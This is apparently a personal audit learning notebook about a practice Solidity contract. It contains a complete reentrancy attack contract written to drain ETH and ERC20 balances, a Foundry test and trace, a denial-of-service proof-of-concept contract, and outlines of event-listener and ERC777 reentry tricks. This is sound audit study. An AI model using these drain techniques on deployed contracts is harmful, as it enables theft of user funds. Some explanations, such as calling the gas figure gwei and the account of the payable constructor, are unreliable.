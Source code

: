 ## ATTACK VECTORS AND LEARNING

# 1 TRANSFER FUNCTION VS LOW LEVEL CALL FUNCTION

If you go into the related report for the ChristmasDinner protocol, you will see where i reported that reentrancy into the contract was possible via the refund function of the contract due to the modifier not setting the locked variable to true. When attempting to prove this, i tried to use my normal reentrancy strategy by defining what i wanted to do in the receive function of my attack contract. See attack contract code below:

<details>
<summary> Attack Contract </summary>

```javascript
 //SDPX-license-Identifier: MIT

pragma solidity 0.8.27;

import {ChristmasDinner} from "./ChristmasDinner.sol";
import {IERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/IERC20.sol";
import {SafeERC20} from "../lib/openzeppelin-contracts/contracts/token/ERC20/utils/SafeERC20.sol";
import {Test, console} from "forge-std/Test.sol";

contract AttackContract is Test {
    address payable public target;
    uint256 public constant TARGETVALUE = 2 ether;
    address[] public wlist;

    event FallbackTriggered(uint256 balance, uint256 entrancefee);

    constructor(
        address payable _target,
        address _WBTC,
        address _WETH,
        address _USDC
    ) {
        target = _target;
        wlist.push(_WBTC);
        wlist.push(_WETH);
        wlist.push(_USDC);
    }

    function deposit() public {
        for (uint i = 0; i < wlist.length; i++) {
            IERC20(wlist[i]).approve(target, TARGETVALUE);
            ChristmasDinner(target).deposit(wlist[i], TARGETVALUE);
        }
    }

    receive() external payable {
        uint256 initialGas = gasleft();
        console.log(initialGas);
        uint256 gasForRefund = (initialGas * 80) / 100; // Reserve some gas for other operations

        // If there's enough gas, proceed with calling the refund function
        require(gasForRefund > 0, "Not enough gas to execute refund");
        if (
            target.balance >= TARGETVALUE ||
            IERC20(wlist[0]).balanceOf(target) >= TARGETVALUE ||
            IERC20(wlist[1]).balanceOf(target) >= TARGETVALUE ||
            IERC20(wlist[2]).balanceOf(target) >= TARGETVALUE
        ) {
            // Call the refund function with sufficient gas
            (bool success, ) = target.call{gas: gasForRefund}(
                abi.encodeWithSignature("refund()")
            );
            require(success, "Refund failed");
        }
    }

    fallback() external payable {
        deposit();
        target.call{value: 1 ether}("");
    }
}

```

</details>

This was the test I attempted to use to test this:

<details>
<summary>Test to prove reentrancy (see test script) </summary>

```javascript
 function test_attacktime() public {
        vm.deal(user1, 10e18);
        vm.deal(user2, 10e18);
        vm.deal(user3, 10e18);
        vm.startPrank(user1);
        cd.deposit(address(wbtc), 1e18);
        cd.deposit(address(weth), 1e18);
        cd.deposit(address(usdc), 1e18);
        address(cd).call{value: 1 ether}("");
        vm.stopPrank();
        vm.startPrank(user2);
        cd.deposit(address(wbtc), 1e18);
        cd.deposit(address(weth), 1e18);
        cd.deposit(address(usdc), 1e18);
        address(cd).call{value: 1 ether}("");
        vm.stopPrank();
        vm.startPrank(user3);
        cd.deposit(address(wbtc), 1e18);
        cd.deposit(address(weth), 1e18);
        cd.deposit(address(usdc), 1e18);
        address(cd).call{value: 1 ether}("");
        vm.stopPrank();
        address attackaddy = vm.addr(1);
        vm.deal(attackaddy, 100e18);
        vm.startPrank(attackaddy);
        address(ac).call{value: 2 ether}(abi.encodeWithSignature("random()"));
        (bool success, bytes memory returndata) = address(ac).call{
            value: 2 ether
        }("");
        console.log(address(ac).balance);

        vm.stopPrank();
        assertEq(address(ac).balance, 9 ether);
        assertEq(wbtc.balanceOf(address(ac)), 4e18);
        assertEq(weth.balanceOf(address(ac)), 4e18);
        assertEq(usdc.balanceOf(address(ac)), 4e18);
        assertEq(address(ac).balance, 9 ether);
    }

```

</details>

None of this went to plan for a number of reasons I will explain and in this explanation, you will understand the difference between the transfer function and the low level call function. I ran into 2 major problems when running these tests. I will start with the one more relevant to the learning point which is the fact that the test always eneded up with the following error in foundry:

<details>
<summary>Test to prove reentrancy (see test script) </summary>

├─ [28842] AttackContract::receive{value: 2000000000000000000}()
│ ├─ [0] console::log(1056066064 [1.056e9]) [staticcall]
│ │ └─ ← [Stop]
│ ├─ [24782] ChristmasDinner::refund()
│ │ ├─ [3303] ERC20Mock::transfer(AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2000000000000000000 [2e18])
│ │ │ ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], value: 2000000000000000000 [2e18])
│ │ │ └─ ← [Return] true
│ │ ├─ [3303] ERC20Mock::transfer(AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2000000000000000000 [2e18])
│ │ │ ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], value: 2000000000000000000 [2e18])
│ │ │ └─ ← [Return] true
│ │ ├─ [3303] ERC20Mock::transfer(AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], 2000000000000000000 [2e18])
│ │ │ ├─ emit Transfer(from: ChristmasDinner: [0x8Ad159a275AEE56fb2334DBb69036E9c7baCEe9b], to: AttackContract: [0x1240FA2A84dd9157a0e76B5Cfe98B1d52268B264], value: 2000000000000000000 [2e18])
│ │ │ └─ ← [Return] true
│ │ ├─ [2300] AttackContract::receive{value: 1000000000000000000}()
│ │ │ ├─ [0] console::log(2241) [staticcall]
│ │ │ │ └─ ← [Stop]
│ │ │ ├─ [910] ChristmasDinner::refund()
│ │ │ │ └─ ← [OutOfGas] EvmError: OutOfGas
│ │ │ └─ ← [OutOfGas] EvmError: OutOfGas
│ │ └─ ← [Revert] EvmError: Revert

</details>

What you can see is that the test is showing an out of gas error which made no sense to me so i decided to do random things that adjust block gas limit, etc and it didnt work. So i saw that the gas issue was occuring immediately my attack contract received the first refund from the christmas dinner contract and then the logic from my receive function was to run which was a function that would call refund again obviously to try and drain the contract. So i decided to check how much gas was being used in each receive function call. there is a solidity global function called gasleft() that returns how much gas is left when a function is running so if you look in the receive function, i used this to log how much gas each receive call was using to know why the out of gas error was showing up.

As you can see from the error above, in the first receive function, the gas allocated is about 1 million gwei which is actually way too much and you wont see this a lot as that is a lot of money just for one function. However, once the first refund happens and my attack contract receives it and wants to call refund again, the gasleft is now 2241 which had me dumbfounded becausw how can 1 million gas just change to 2241. After some debugging, i looked in the refund function that my receive function and I saw that when the contract was refunding eth to my attack contract, this was the function that was running:

```javascript
function _refundETH(address payable _to) internal {
        uint256 refundValue = etherBalance[_to];
        //_to.call{value: refundValue}("");
        _to.transfer(refundValue);
        etherBalance[_to] = 0;
    }
```

The key was in that transfer function. I noticed that when i changed the transfer function to a low level call function that just transfers eth to my attack contract, i am able to drain all the eth from the contract. so I knew that even though the transfer function and the low level call do the same thing, there are slight nuances that i didnt know about in terms of gas usage with that transfer function. In my research, this is what i found:

In Solidity, security concerns around sending Ether to contracts are a major reason why transfer() is often considered safer than call{value:}. The specific security feature that makes transfer() safer is its gas limitation.

When you use transfer(), the receiving contract (if it's a contract) can only receive a fixed 2300 gas. This small amount of gas is enough to log an event and execute basic logic like emitting a Transfer event, but it is intentionally limited.
This limitation is key because it prevents the receiving contract from performing complex operations, like making additional calls to other contracts or sending Ether to other addresses.

Because transfer() only forwards 2300 gas to the receiving contract, it severely limits the possibilities for a contract to call back into the sender or perform any complex logic.This small gas stipend is intentionally restrictive, ensuring that the contract can't re-enter the sender contract and thus mitigating the risk of reentrancy attacks. On the other hand, call{value:} forwards all remaining gas (by default), which means that the receiving contract can perform more complex operations, including calling back into the sender contract. This makes call{value:} more flexible but also more dangerous, as it doesn't have the same gas restrictions. If the receiving contract has a malicious function or is poorly designed, it could potentially exploit this flexibility to trigger reentrancy attacks or other vulnerabilities in the sender contract.

When the transfer function in Solidity is used to send Ether to an address, the gas handling works as follows:
The transfer function in Solidity sends a fixed amount of gas (2300 gas) to the recipient's fallback or receive function. This is done for safety reasons to limit the execution of complex logic in the recipient's contract, preventing potential reentrancy attacks or excessive gas usage.

The transfer function sends exactly 2300 gas to the recipient's address. This fixed gas stipend is part of the transfer mechanism and cannot be adjusted.
The recipient of the Ether (the to address in \_to.transfer(value)) gets the gas. If the recipient is an EOA (Externally Owned Account), the gas is effectively unused, as EOAs do not execute any logic. If the recipient is a smart contract, the gas is made available for executing the contract's receive or fallback function (if defined).

There have been some suggestions and potential EIP's to increase the gas limit on the transfer function have been discussed. See discussions in links below:

https://github.com/ethereum/EIPs/issues/1285
https://ethereum.stackexchange.com/questions/59197/transfer-function-gas-limit-why-2-300

So this perfectly explains why the transfer function was used. Now whoever wrote this thought they were smart. This led to my second problem when trying to drain my contract like i did above. when refunding erc20's once the erc20 is refunded, the balance is set to 0 and this function is internal which means i cannot directly call it. it is called in the refund function but when i call refund, it calls refund erc20 which does the following:

```javascript
 function _refundERC20(address _to) internal {
        //a could have _to as a payable address to allow consistency with refund function and avoid conversion
        i_WETH.safeTransfer(_to, balances[_to][address(i_WETH)]); //q why not loop through whitelisted tokens and transfer all of them?
        i_WBTC.safeTransfer(_to, balances[_to][address(i_WBTC)]);
        i_USDC.safeTransfer(_to, balances[_to][address(i_USDC)]);
        balances[_to][address(i_USDC)] = 0;
        balances[_to][address(i_WBTC)] = 0;
        balances[_to][address(i_WETH)] = 0;
    }

```

So i cannot reenter the refund function because by the time i call refund again, all my balances are set to 0 as the \_refunderc20 function would have finished running before i can call refund again and i saw this was the case when i temporarily changes the transfer function to low level call during debugging to see the outcome. what they dont know is that i can simply set up an event listener as each safetransfer function in this \_refunderc20 emits an event so i can set up a listener to listen for the Transfer event and once it happens, i know that one of these transfers is done and i can recall refund function which will reenter this \_refunderc20 function before the balances get reset and i can keep doing this until i drain all balances of all erc20's in the contract. I used ethers and hardhat to do it. you can see the test in the report and also in the hardhatlistenerv2 folder in the eventslistener.js file.

Another thing I couldve done which I didnt know at the time was that I could've entered an ERC777 contract as one of the acceptable tokens in the ChristmasDinner contract and then used the token to reenter the \_refunderc20 function via the safetransfer function that is called in that function. I didnt know about ERC777 at the time and i didnt know about weird erc20's at the time but after doing the tswap audit, i implemented an ERC777 token to exploit the protocol and if you look at the notes.md in the 5-tswapaudit, i explained all of it there and you can read all of that to get a complete understanding of how these things work. I explained it in detail there so make sure to check that out.

# 2 PAYABLE FUNCTIONS ALLOW RECEIVING ETHER

When writing the POC for my L-1 finding about DOS attack being possible (see report). The first contract I wrote that could send ether but not receive ether was as follows:

```javascript

//SDPX-License-Identifier: MIT

pragma solidity 0.8.27;

import {ChristmasDinner} from "./ChristmasDinner.sol";

contract EmptyContract {
address payable public target;

    constructor(address _target) payable {
        target = payable(_target);
        target.call{value: 1 ether}("");
        ChristmasDinner(target).refund();
    }

}
```

the idea was thatif a user tried to call refund with a smart contract that had no receive function, it would revert and cause a DOS. With this contract, the problem was that i set the constructor to payable and that payable keyword not only means the function can send ether but it means it can receive ether as well. so when this contract is deployed, it calls the refund function which allows it to receive ether so on deployment of the contract, i expected a revert that never happened because i called the refund function inside a payable constructor which meant that the christmas dinner contract could send me that either back within this function. I had to refactor this to remove the refund function from the payable constructor and call it seperately in the test script. Calling it seperately means it is its own function and not in the constructor which means when the christmas dinner attempts to send ether, it will look for a receive or fallback which isnt in my contract and it will revert as expected (see report for correct test).

CALLING REFUND IN CONSTRUCTOR IS PAYABLE SO ALLOWED TO RECEIVE ETH . KEEP THIS IN MIND
